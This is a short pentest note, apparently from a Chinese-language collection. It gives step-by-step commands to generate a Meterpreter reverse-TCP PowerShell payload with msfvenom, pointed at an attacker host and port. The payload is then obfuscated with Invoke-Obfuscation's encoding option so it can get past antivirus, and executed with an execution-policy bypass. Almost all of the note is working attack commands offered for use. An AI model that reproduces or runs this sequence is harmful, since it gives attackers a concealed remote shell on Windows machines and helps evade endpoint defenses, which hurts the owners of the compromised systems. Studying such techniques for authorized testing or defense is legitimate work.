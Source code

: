 	https://github.com/danielbohannon/Invoke-Obfuscation
	生成code
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f psh -o /var/www/html/1.ps1
	>powershell -ep bypass
	>Import-Module .\Invoke-Obfuscation.psd1
	>Invoke-Obfuscation
	>set scriptpath C:\Users\y\Desktop\1.ps1
	>encoding
	>3 指定编码方式
	>out C:\Users\y\Desktop\ok.ps1 保存

![image](/assets/Pentest_Note/master/img/84.png)
![image](/assets/Pentest_Note/master/img/85.png)

	执行
	>powershell -ep bypass -noexit -file ok.ps1

![image](/assets/Pentest_Note/master/img/86.png)
![image](/assets/Pentest_Note/master/img/87.png)
![image](/assets/Pentest_Note/master/img/88.png)